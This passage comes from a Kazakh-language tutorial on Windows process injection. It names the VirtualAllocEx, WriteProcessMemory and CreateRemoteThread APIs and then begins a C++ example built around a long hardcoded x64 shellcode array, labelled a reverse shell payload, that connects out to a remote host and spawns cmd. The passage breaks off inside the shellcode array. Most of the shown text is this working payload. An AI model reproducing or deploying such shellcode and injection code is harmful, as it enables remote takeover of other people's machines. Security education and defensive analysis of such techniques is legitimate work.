 содан кейін жүйеден пайдалы жүктемеңізді мақсатты процесте орындауды бастау үшін "рұқсат" `сұраңыз`, яғни `calc.exe`.     

![injection process 4](./images/6/injection-4.png){width="75%"}

Ал енді осы қарапайым логиканы кодтауға көшейік.     

Классикалық тұрғыдан мұны істеудің ең танымал комбинациясы debug мақсаттары үшін енгізілген Windows API iшіндегі кейбір функцияларды пайдалану болып табылады.    

Бұл функциялар:    

- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Өте негізгі (қарапайым) мысалдың түрі мынадай:     

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
```